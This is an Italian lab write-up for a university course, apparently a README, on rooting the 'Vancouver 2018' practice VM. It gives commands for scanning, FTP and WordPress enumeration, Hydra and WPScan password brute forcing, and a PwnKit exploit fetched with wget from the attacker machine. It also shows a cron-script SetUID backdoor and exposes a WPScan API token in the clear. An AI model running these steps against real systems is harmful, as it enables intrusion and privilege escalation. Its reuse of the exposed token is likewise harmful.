


# 🛡️ Vancouver 2018 Exploitation Report

## 📋 **Descrizione Generale**
Questa relazione documenta le fasi eseguite per analizzare e sfruttare le vulnerabilità della macchina virtuale (VM) fornita dal professore. L'obiettivo principale era ottenere accesso root utilizzando un approccio sistematico, combinando tecniche di enumerazione e sfruttamento delle vulnerabilità.

---

## ⚙️ **Configurazione dell'Ambiente**
1. **Importazione della VM**:
   - La VM è stata importata utilizzando il file OVA fornito dal professore.
   - L'ambiente è stato configurato e avviato correttamente su VirtualBox/VMware.

2. **Identificazione dell'indirizzo IP**:
   - Per individuare l'indirizzo IP della VM assegnato dal router locale, è stata eseguita una scansione di rete con **Nmap**:
     ```bash
     nmap -sn 192.168.1.0/24
     ```
   - L'indirizzo IP della macchina target rilevato è stato **192.168.1.170**.

---

## 🔍 **Fase di Scansione e Enumerazione**
### 1️⃣ **Scansione delle Porte**
- Una scansione approfondita con **Nmap** ha rivelato i servizi attivi:
  ```bash
  nmap -sV -p- 192.168.1.170
  ```
- **Risultato**: Sono state identificate porte attive, in particolare il servizio **FTP**.

### 2️⃣ **Accesso FTP Anonimo**
- L'accesso anonimo è stato testato con successo:
  ```bash
  ftp 192.168.1.170
  ```
- All'interno della directory `public`, è stato individuato il file **users.txt.bk**, contenente una lista di nomi utente:
  ```
  anne
  john
  ...
  ```

### 3️⃣ **Scoperta del Servizio Web WordPress**
- Durante la scansione Nmap, la porta **80** risultava attiva, ospitando un servizio web HTTP.
- Una scansione delle directory con **Gobuster** ha rivelato percorsi nascosti:
  ```bash
  gobuster dir -u http://192.168.1.170 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
  ```
- **Risultato**: è stato individuato il file **robots.txt**:
  ```
  /robots.txt           (Status: 200) [Size: 43]
  ```
- Analizzando il contenuto di **robots.txt**, è stata scoperta la directory nascosta **/backup_wordpress**:
  ```bash
  curl http://192.168.1.170/robots.txt
  ```

- Visitando l'indirizzo `http://192.168.1.170/backup_wordpress`, è stato confermato il sito WordPress.
- Una scansione più mirata con **WPScan** ha permesso di enumerare gli utenti e testare password comuni:
  ```bash
  wpscan --url http://192.168.1.170/backup_wordpress --api-token Tc1sdQWKLxFRktkneIXAx6CiY5a98HdnyhYaBr34058 --enumerate u --passwords /usr/share/wordlists/rockyou.txt
  ```
- **Risultato**: è stata trovata la combinazione:
  - **Username**: `john`
  - **Password**: `enigma`

- Accedendo al pannello amministrativo di WordPress con le credenziali trovate, è stato caricato un **plugin malevolo** contenente una **reverse shell PHP**, consentendo l'accesso al sistema come utente **www-data** (privilegi bassi).
# CI SARA MAI UTILE?

---

## 🔐 **Fase di Sfruttamento dei Servizi**
### 4️⃣ **Attacco Dizionario con Hydra su SSH** 🚀
- Utilizzando i nomi utente recuperati dal file `users.txt.bk`, è stato eseguito un attacco di dizionario mirato per accedere al servizio SSH con **Hydra**.
- Il test è stato eseguito iterativamente per ciascun nome utente, utilizzando il file di password `rockyou.txt`:
  ```bash
  hydra -l <username> -P /usr/share/wordlists/rockyou.txt -t 64 -V ssh://192.168.1.170
  ```
- **Risultato**: Sono state individuate le seguenti credenziali valide:
  - **Username**: `anne`
  - **Password**: `princess`

---

## 🏆 **Accesso Root**
### Fase Finale: Escalation di Privilegi
1. Login SSH eseguito con successo:
   ```bash
   ssh anne@192.168.1.170
   ```
2. Verifica della possibilità di eseguire comandi come root:
   ```bash
   sudo su
   ```
3. Inserendo la password dell'utente `anne`, è stato ottenuto accesso completo come **root**.

### 📌 **Conferma dei Privilegi Root**
- Per verificare l'accesso root, sono stati eseguiti i seguenti comandi:
  ```bash
  whoami
  id
  ```
- **Output**:
  ```
  root
  ```
  Accesso root confermato con successo. ✅

---

## 🎯 **Conclusione**
L'attacco è stato completato con successo. Le fasi principali sono state:

1. **Scansione e enumerazione** dei servizi attivi (FTP, HTTP).
2. **Accesso anonimo** al servizio FTP e raccolta di informazioni utili (file `users.txt.bk`).
3. Individuazione di una directory nascosta attraverso l'analisi di **robots.txt** e scansioni mirate con **Gobuster**.
4. Utilizzo di **WPScan** per enumerare gli utenti di WordPress e scoprire credenziali valide.
5. Caricamento di una **reverse shell** tramite plugin WordPress per ottenere un accesso iniziale al sistema.
6. Esecuzione di un attacco dizionario con **Hydra** per identificare credenziali valide per SSH.
7. Escalation dei privilegi con **sudo** per ottenere accesso root.

### 📊 **Lezioni Apprese e Miglioramenti**
- La presenza di credenziali deboli e configurazioni errate ha reso possibile l'intero attacco.
- Migliorare la sicurezza richiede:
  - Disabilitare l'accesso anonimo FTP.
  - Proteggere il file `robots.txt` e directory sensibili.
  - Implementare policy di password più robuste e aggiornamenti regolari dei sistemi.


# 🚀 **Missione completata con successo!**


Ecco il tuo **README.MD** aggiornato con il metodo utilizzato per ottenere l'accesso root tramite **PwnKit** (32-bit), con **server Python** e **wget**.

---
# xxX__EXTRA Dell'EXTRA__Xxx
# 📌 CATTIVERIA PURA #1 **Uso dell'Exploit [PwnKit](https://github.com/ly4k/PwnKit) (CVE-2021-4034)**
Per ottenere l'escalation di privilegi fino a **root**, abbiamo sfruttato la vulnerabilità **CVE-2021-4034** (PwnKit) utilizzando un exploit precompilato a 32-bit.

**Passaggi Seguiti**:

1. **Server HTTP su Kali per Trasferire il File**:
   - Abbiamo avviato un server HTTP con Python nella directory contenente l'exploit:
     ```bash
     python3 -m http.server 8080
     ```

2. **Scaricamento dell'Exploit sul Target**:
   - Sul target (shell **www-data**), abbiamo usato `wget` per trasferire l'exploit:
     ```bash
     cd /tmp
     wget http://192.168.1.165:8080/PwnKit32 -O PwnKit32
     chmod +x PwnKit32
     ```

3. **Esecuzione dell'Exploit**:
   - Una volta reso eseguibile, abbiamo lanciato l'exploit:
     ```bash
     ./PwnKit32
     ```

4. **Verifica dell'Accesso Root**:
   - Abbiamo verificato l'avvenuta escalation di privilegi:
     ```bash
     whoami
     id
     ```

   **Output**:
   ```
   root
   uid=0(root) gid=0(root) groups=0(root),33(www-data)
   ```

---

## 🏆 **Accesso Root**
L'utilizzo dell'exploit PwnKit ci ha permesso di ottenere privilegi **root** partendo da un accesso iniziale limitato all'utente **www-data**.



---

# 🚀 **Missione completata con successo!**

---

# 📌CATTIVERIA PURA #2 **Privilege Escalation tramite Cron Job e Backdoor SetUID**

### **Descrizione del problema**
Scoperto un altro approccio con cron job configurato in `/etc/crontab` esegue lo script `/usr/local/bin/cleanup` come utente **root**. Tuttavia, lo script ha permessi **world-writable** (`rwxrwxrwx`), permettendo a chiunque di modificarlo.

Questa configurazione consente di sfruttare una **vulnerabilità di privilegio** per ottenere accesso root.

---

### **Dettagli del Sistema**
- **Utente iniziale**: `www-data`
- **Percorso vulnerabile**: `/usr/local/bin/cleanup`
- **Permessi**: `-rwxrwxrwx root root`
- **Cron job**: 
   ```bash
   * * * * * root /usr/local/bin/cleanup
   ```

---

### **Obiettivo**
Effettuare **escalation di privilegi** sfruttando il cron job per creare una **backdoor** con il bit **SetUID** attivo, permettendo l’esecuzione di una shell con privilegi root.

---

## 🛠️ **Step-by-Step dell'Exploit**

### **1. Identificazione della vulnerabilità**
L'utente `www-data` ha trovato un cron job configurato per eseguire `/usr/local/bin/cleanup` con permessi root ogni minuto. Lo script aveva permessi **modificabili** da chiunque:

```bash
ls -l /usr/local/bin/cleanup
-rwxrwxrwx 1 root root 44 Dec 14 21:24 /usr/local/bin/cleanup
```

---

### **2. Creazione della Backdoor SetUID**
L'obiettivo era copiare il binario `/bin/bash` in `/tmp` e applicare il bit **SetUID**.

#### **Comando inserito nello script `cleanup`**:
```bash
echo "cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash" > /usr/local/bin/cleanup
```

- **`cp /bin/bash /tmp/rootbash`**: copia il binario `bash` nella cartella `/tmp`.
- **`chmod +s /tmp/rootbash`**: imposta il bit **SetUID**, permettendo al file di essere eseguito con privilegi root.

---

### **3. Esecuzione Manuale del Cron Job**
Sebbene il cron job sia configurato per eseguirsi automaticamente ogni minuto, in questo caso **non viene eseguito automaticamente**. È necessario forzarne l'esecuzione manualmente con:

```bash
/usr/local/bin/cleanup
```

---

### **4. Ottenimento della Shell Root**
Una volta eseguito il cron job, il file `/tmp/rootbash` diventa un binario eseguibile con privilegi root. Per ottenere la shell root:

```bash
/tmp/rootbash -p
```

- **`-p`**: impedisce a `bash` di abbassare i privilegi.

---

### **5. Verifica dei Privilegi**
Conferma l'accesso root eseguendo:

```bash
whoami

```

**Output**:
```
root
```



---

## 🏆 **Conclusione**
L'escalation di privilegi è stata ottenuta sfruttando:
- **Cron job root** con un **file world-writable**.
- Creazione di un **binario SetUID** con privilegi root.
- Forzando manualmente l’esecuzione del cron job.

Questa dimostrazione evidenzia quanto sia pericoloso lasciare script root con permessi **modificabili** e quanto sia importante verificare l’esecuzione automatica dei cron jobs.

🎉 **Esplorazione completata con successo!** 🚀
